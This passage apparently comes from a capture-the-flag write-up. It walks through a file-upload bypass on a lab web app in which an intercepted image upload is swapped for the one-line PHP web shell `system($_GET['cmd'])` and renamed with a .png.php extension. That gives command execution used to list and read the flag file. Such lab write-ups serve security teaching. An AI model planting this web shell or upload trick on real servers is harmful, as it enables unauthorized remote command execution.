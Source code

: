 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c13234c3-9141-4b9a-83b2-3a58274a3235)

This means the directory exists but then we don't have enough permission to view the directory. 

To view the image we uploaded we can do this ```/uploads/bl4ck4non.png```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/046d5f43-8325-45c7-bac4-889e07f131d6)

As you can see, it worked.

Now, lets upload another png image, but then this time we'll intercept the request using burpsuite so we can do some modifications

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/16ef05f0-3339-468b-971e-b43fead98812)

On burpsuite you have this,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0e9022a5-6c39-4b5e-b6f0-d8ad266179e3)

We'll delete the contents of the png image and add this payload

```php
<?php system($_GET['cmd']); ?>
```
We'll also edit the filename

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ab72a6db-3c4e-4f9f-8108-3501f572a1a8)

Good, now forward the request

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/26f8b058-878b-4707-a31b-c77f732ac98b)

Our file got uploaded successfully

To view our file we'll navigate to ```/uploads/freakyFlags.png.php```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e766499-955c-40ee-98a6-e955e85f5492)

We get this, now to get command injection on this server we can add this ```?cmd=id```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/be15caf6-2a9c-4400-9af9-5ecb2f99f19a)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/87fb5c96-1852-442f-8fdf-938ae7cdfff2)

As you can see, we can execute linux commands.

Well, lets look for the flag, I'll be using burp repeater for this.

We'll start with going back a directory and listing the contents of that directory, something like this ```cd .. && ls -la```, ensure you url encode this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/edf63944-0c6f-4827-b72e-0f8f5b06c3b3)

That file looks interesting, lets cat it, we can achieve that using this ```cd .. && ls -la && cat GQ4DOOBVMMYGK.txt```, ensure it is url encoded before sending.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35ef4fb7-1959-4428-97cd-b88a08376780)


[ ]: Matches any one character within the specified range or set.